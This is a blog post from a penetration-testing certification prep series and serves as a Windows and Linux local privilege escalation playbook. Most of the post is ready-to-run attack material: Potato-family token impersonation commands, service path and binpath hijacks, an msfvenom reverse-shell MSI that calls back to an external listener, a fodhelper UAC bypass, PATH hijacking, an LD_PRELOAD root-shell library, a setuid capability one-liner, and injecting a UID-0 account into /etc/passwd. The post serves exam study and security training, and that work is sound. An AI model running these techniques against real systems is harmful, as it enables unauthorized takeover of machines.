




Securing an initial foothold—whether through web application command injection, a client-side phishing macro, or exploiting an unauthenticated daemon—typically lands an operator in a strictly unprivileged context (e.g., `www-data`, `local service`, or a low-rights standard user). In the **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** examination, achieving local root (`NT AUTHORITY\SYSTEM` on Windows or `root` on Linux) is mandatory to extract password hashes from memory, establish reliable network pivots, and complete post-exploitation objectives.

In this deep dive, we present an exhaustive field engineering playbook for **Windows and Linux Local Privilege Escalation**, detailing automated auditing workflows, core operating system security primitives, and reliable manual exploit techniques.

<div class="ff-series-nav">
  <a href="/posts/ecppt-v3-part-4-active-directory-penetration-testing/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 4: Active Directory Pentesting</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-layer-group"></i> eCPPTv3 Series</span>
    <span class="ff-center-part">Part 5 of 10</span>
  </div>
  <a href="/posts/ecppt-v3-part-6-lateral-movement-and-pivoting/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 6: Lateral Movement & Pivoting</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Key Takeaways

* **Windows Token Impersonation (`SeImpersonatePrivilege`)**: Service accounts such as `LOCAL SERVICE` or `NETWORK SERVICE` frequently hold token impersonation rights. By coercing high-privilege system services (such as Print Spooler or RPC) to authenticate against a rogue local Named Pipe, attackers trigger token impersonation (via the "Potato" exploit family) to instantly elevate to `NT AUTHORITY\SYSTEM`.
* **Insecure Service Configuration**: Windows services must be audited for weak Discretionary Access Control Lists (DACLs allowing binary path modifications), unquoted service paths containing spaces, and weak filesystem permissions on service executables.
* **Bypassing UAC Silently**: Standard users belonging to the local `Administrators` group operate under filtered medium-integrity tokens. We execute silent UAC bypasses by hijacking registry keys referenced by auto-elevating binaries (`fodhelper.exe`, `sdclt.exe`).
* **Linux SUID Binaries & PATH Hijacking**: Executables assigned the SUID bit run with the permissions of their owner. We audit custom SUID binaries for relative command invocations (allowing `PATH` hijacking) and cross-reference standard utilities against the **GTFOBins** database.
* **Sudo Environment Abuse (`LD_PRELOAD`)**: When `sudo -l` reveals commands configured with `NOPASSWD`, or when the `env_keep+=LD_PRELOAD` directive is preserved, attackers can inject arbitrary shared libraries (`.so`) into root execution space.

---

## Section 1: Windows Privilege Escalation Playbook

### 1. Token Impersonation and the "Potato" Exploit Family

In Windows, processes access resources using **Access Tokens**. When an operator executes `whoami /priv` and discovers:

```cmd
whoami /priv
# Privilege Name                Description                               State
# ============================= ========================================= ========
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

The operator can force an elevated Windows component running under `NT AUTHORITY\SYSTEM` to connect to a controlled local communication endpoint (such as a Named Pipe or RPC endpoint). The attacker process then calls `ImpersonateNamedPipeClient()` or `DuplicateTokenEx()` to duplicate the system token and spawn an administrative process:



#### Field Exploitation Commands:

```cmd
# Modern Windows 10 / Server 2016 / Server 2019 via PrintSpoofer
PrintSpoofer.exe -i -c cmd.exe

# Legacy Windows Server 2008 / 2012 via JuicyPotato (requires finding valid CLSID)
JuicyPotato.exe -l 1337 -p c:\temp\shell.exe -t * -c {CLSID-Value}

# Universal modern exploit via GodPotato (Supports Windows 10, 11, Server 2022)
GodPotato-NET4.exe -cmd "cmd.exe /c whoami"
```

---

### 2. Insecure Windows Service Configurations

#### A. Unquoted Service Paths:
When a Windows service path contains spaces and lacks enclosing quotes, Windows attempts to execute files matching each space boundary in sequence:

```text
Service Path: C:\Program Files\Development Tools\service.exe
Windows checks in order:
1. C:\Program.exe
2. C:\Program Files\Development.exe
3. C:\Program Files\Development Tools\service.exe
```

If write permissions exist on `C:\Program Files`, placing an attacker payload named `Development.exe` guarantees administrative code execution upon service restart:

```cmd
# Enumerate unquoted service paths via WMI
wmic service get name,displayname,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """

# Place the binary and restart the service
copy shell.exe "C:\Program Files\Development.exe"
net stop "Vulnerable Service" && net start "Vulnerable Service"
```

#### B. Modifiable Service Binaries and Weak DACLs:
If an unprivileged user has `SERVICE_CHANGE_CONFIG` or write permissions over the service definition, modify the binary path directly:

```cmd
# Audit service permissions using AccessChk
accesschk.exe /accepteula -ucwv users VulnerableService

# Overwrite service binary path to execute arbitrary commands
sc config VulnerableService binpath= "net localgroup administrators attacker /add"
sc stop VulnerableService
sc start VulnerableService
```

---

### 3. Registry AlwaysInstallElevated Abuse

If system administrators enable elevated MSI package installation via Group Policy, any low-privileged user can run an installer that executes arbitrary commands with `NT AUTHORITY\SYSTEM` rights:

```cmd
# Verify registry keys in both HKLM and HKCU
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# Both keys must return 0x1

# Generate a malicious installer MSI payload using msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f msi -o install.msi

# Execute silently to achieve elevated shell access
msiexec /quiet /qn /i install.msi
```

---

### 4. Silent User Account Control (UAC) Bypasses

When operating as a user who belongs to the local `Administrators` group but is executing within a medium-integrity context, User Account Control (UAC) prompts will block privileged commands. We leverage native Microsoft binaries that have `autoElevate = true` embedded in their manifests:

```cmd
# Hijack the registry key queried by fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe /c start C:\temp\shell.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /f

# Trigger the auto-elevating binary without any GUI prompt
C:\Windows\System32\fodhelper.exe
```

---

## Section 2: Linux Privilege Escalation Playbook



---

### 1. SUID Binaries and PATH Variable Hijacking

Files configured with the **SUID (Set User ID)** permission run under the authority of the file's owner (typically `root`).

```bash
# Locate all SUID executables across the filesystem
find / -perm -u=s -type f 2>/dev/null
```

#### Exploiting Relative Binary Paths (PATH Hijacking):
If analysis of a custom SUID executable reveals calls to external system utilities without full absolute paths (e.g., invoking `service status` instead of `/usr/sbin/service`):

```bash
# Inspect ASCII strings inside the SUID binary
strings /opt/custom/status_checker

# Create a malicious script named 'service' in /tmp
echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/service
chmod +x /tmp/service

# Prepend /tmp to the beginning of the PATH environment variable
export PATH=/tmp:$PATH

# Run the SUID binary; it will execute /tmp/service as root!
/opt/custom/status_checker
```

---

### 2. Sudo Misconfigurations and LD_PRELOAD Exploitation

Auditing `sudo -l` reveals permissions granted to the current user:

```text
Matching Defaults entries for student on target:
    env_reset, env_keep+=LD_PRELOAD

User student may run the following commands on target:
    (ALL : ALL) NOPASSWD: /usr/bin/find
```

#### Attack Path A: GTFOBins Command Injection
```bash
# Exploit find to launch an interactive root shell
sudo find . -exec /bin/sh \; -quit
```

#### Attack Path B: Exploiting `LD_PRELOAD`
If `env_keep+=LD_PRELOAD` is active, we compile a shared library that hooks the process initialization routine (`_init`):

```c
// evil.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash
# Compile into a shared object (.so)
gcc -fPIC -shared -o /tmp/evil.so evil.c -nostartfiles

# Execute any allowed sudo command with LD_PRELOAD
sudo LD_PRELOAD=/tmp/evil.so /usr/bin/find
# Immediate result: root@target:~#
```

---

### 3. Exploiting Linux Capabilities

Linux divides traditional root privileges into distinct privileges known as **Capabilities**:

```bash
# Recursively audit all binaries assigned elevated capabilities
getcap -r / 2>/dev/null

# If /usr/bin/python3 has cap_setuid+ep configured:
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

### 4. Writable `/etc/passwd` File

If misconfigured permissions grant write access to `/etc/passwd`:

```bash
# Generate a salt and password hash using OpenSSL
openssl passwd -1 -salt rootpw Password123
# Generated Hash: $1$rootpw$4ZkK9M9v7R8...

# Append a custom user with UID 0 and GID 0 (root equivalent)
echo 'hacker:$1$rootpw$4ZkK9M9v7R8...:0:0:root:/root:/bin/bash' >> /etc/passwd

# Authenticate as the newly created root user
su hacker
# Enter Password123 -> Full root access obtained!
```

---

---

## Visual Architecture: Privilege Escalation Primitives & Decision Engine

The following diagram maps out the primary attack vectors across both operating systems alongside the Potato token impersonation architecture:



### Key Architectural Observations from the Diagram:
1. **The Token Impersonation Pivot**: Service accounts (`LOCAL SERVICE`, `NETWORK SERVICE`, `IIS APPPOOL`) routinely possess `SeImpersonatePrivilege`. The "Potato" family exploits this by running a rogue local RPC listener, forcing a `SYSTEM` process (like DCOM or Print Spooler) to authenticate against it, and invoking `ImpersonateNamedPipeClient()` to grab the elevated token.
2. **Linux Capability Granularity**: Linux capabilities bypass the binary all-or-nothing nature of SUID. When an administrator grants `cap_setuid+ep` to a scripting engine such as Python or Perl, it grants that process the absolute power to invoke `setuid(0)`, yielding immediate root access.

---

## Attack Chain Interconnection: Elevating to SYSTEM / Root to Enable Multi-Tier Pivoting

Privilege escalation is the mandatory bridge between an initial foothold and lateral expansion:



* **Connection to Part 4 (Active Directory)**: Standard users cannot access the memory space of `lsass.exe`. Escalating to `NT AUTHORITY\SYSTEM` in Part 5 is required before invoking `Invoke-Mimikatz` or executing DCSync attacks.
* **Connection to Part 6 (Pivoting)**: Creating virtual network TUN interfaces via `Ligolo-ng` or binding privileged raw sockets for packet forwarding requires root or administrative privileges on the pivot host.

---

## Categorized References & Authoritative Sources

### 1. Curated Privilege Escalation Repositories
* **GTFOBins**: Curated list of Unix binaries used to bypass local security restrictions. [https://gtfobins.github.io/](https://gtfobins.github.io/).
* **LOLBAS Project**: Living Off The Land Binaries, Scripts, and Libraries for Windows. [https://lolbas-project.github.io/](https://lolbas-project.github.io/).
* **PayloadsAllTheThings**: Comprehensive privilege escalation cheatsheets. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
* **HackTricks Privilege Escalation**: Industry-standard Windows and Linux local privilege escalation methodologies by Carlos Polop. [https://hacktricks.wiki/](https://hacktricks.wiki/).

### 2. Exploit Source Code & Research
* **PrintSpoofer by itm4n**: Named pipe impersonation exploit targeting `SeImpersonatePrivilege`. [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer).
* **GodPotato by BeichenDream**: Universal token impersonation targeting Windows Server 2012 through 2022. [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato).
* **PEASS-ng (WinPEAS & LinPEAS)**: Automated local privilege escalation scanners by Carlos Polop. [https://github.com/peass-ng/PEASS-ng](https://github.com/peass-ng/PEASS-ng).

### 3. MITRE ATT&CK Enterprise Techniques
* **T1548**: Abuse Elevation Control Mechanism (Bypass UAC, SUID/SGID). [https://attack.mitre.org/techniques/T1548/](https://attack.mitre.org/techniques/T1548/).
* **T1134**: Access Token Manipulation. [https://attack.mitre.org/techniques/T1134/](https://attack.mitre.org/techniques/T1134/).
* **T1574**: Hijack Execution Flow (DLL Search Order, PATH Hijacking). [https://attack.mitre.org/techniques/T1574/](https://attack.mitre.org/techniques/T1574/).

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
